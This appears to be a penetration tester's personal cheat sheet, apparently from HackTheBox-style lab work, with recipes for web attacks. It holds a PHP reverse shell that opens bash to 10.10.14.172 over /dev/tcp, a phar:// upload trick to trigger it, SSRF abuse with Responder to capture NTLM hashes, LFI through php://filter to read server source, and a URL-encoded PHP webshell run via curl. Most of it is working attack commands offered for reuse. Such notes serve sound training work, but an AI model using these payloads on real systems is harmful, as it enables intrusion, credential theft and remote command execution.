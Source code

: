 ```
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.172/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
```
- then same process as above
```
zip rev.0xdf rev.php
```
- upload rev.0xdf, start listener, access page: http://dev.siteisup.htb/?page=phar://uploads/1f034331994c02c3c036237afbb4975c/rev.0xdf/rev
#### SSRF
if SSRF (text box that calls a URL of my choosing), run responder on kali:
```
sudo responder -I tun0
```
Put link in URL box to call my IP  `\\192.168.45.181\share`
- should be able to capture request, get NTLM hash maybe
also try nc instead of responder:
```
nc -lvnp 80
```
- put in IP of kali `http://10.10.14.172/test` and see if receive any packets

***PHP site***
LFI with php filter
if `?view=` or anything similar is the url like `10.10.146.118/dev/index.html?view=` use php filter in url:
- `10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\index.html`
	- copy output into base64 to see if there is code that can't be seen on view-source:
fuzz for php files
```
feroxbuster -u http://10.10.220.22/dev/ -x php
```
- if found, php filter to view them like above `http://10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\db.php`
	- know it's `C:\xampp\htdocs\dev` filepath because IP shows XAMPP server and that is the default directory

php webshell (URL encoded)
```
%3C?php%20system($_REQUEST%5B'cmd'%5D);%20?%3E
```
- go to cyberchef and URL decode to get normal text (careful, breaks obsidian)
- save as file named shell.php
	- upload as file to directory on server with web info (thru smb share maybe)
- run command:
```
curl school.flight.htb/styles/shell.php?cmd=whoami
```
- should get response like "flight\svc_apache"
